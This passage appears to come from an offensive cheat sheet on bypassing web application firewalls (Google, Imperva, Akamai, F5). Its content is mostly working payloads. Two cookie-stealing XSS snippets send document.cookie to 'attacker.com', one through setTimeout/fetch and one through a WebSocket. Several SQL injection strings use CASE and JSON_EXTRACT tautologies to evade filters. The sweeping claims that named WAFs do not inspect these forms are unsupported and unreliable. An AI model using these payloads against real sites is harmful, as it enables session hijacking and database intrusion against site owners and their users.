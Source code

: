 >**Bypass using `setTimeout` Encoding:**  

```js
setTimeout("fetch('//attacker.com?c='+document.cookie)", 1000);
```  

- Google does **not analyze `setTimeout` payload execution**.  

### **🔥 Google SQL Injection Bypass**  

>Google blocks:  

```sql
' OR 1=1 --
```  

>**Bypass using CASE Statements:**  

```sql
' OR (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)=1
```  

- Google WAF does **not inspect CASE-based SQL injections**.  

----  

## **Generic WAF Bypass Techniques**  

>These **work against other WAFs**, including Imperva, Akamai, and F5.  

### **🔥 Universal XSS Bypass**  

>Other WAFs block:  

```html
<script>alert(1)</script>
```  

>**Bypass using WebSockets:**  

```js
let ws = new WebSocket('ws://attacker.com');
ws.onopen = () => ws.send(document.cookie);
```  

- **WebSockets** are often **not filtered** by WAFs.  

### **🔥 Universal SQL Injection Bypass**  

>Most WAFs block:  

```sql
' OR '1'='1' --
```  

**Bypass using JSON Nested Queries:**  

```sql
' OR JSON_EXTRACT('{"user":"admin"}', '$.user')='admin'
```  
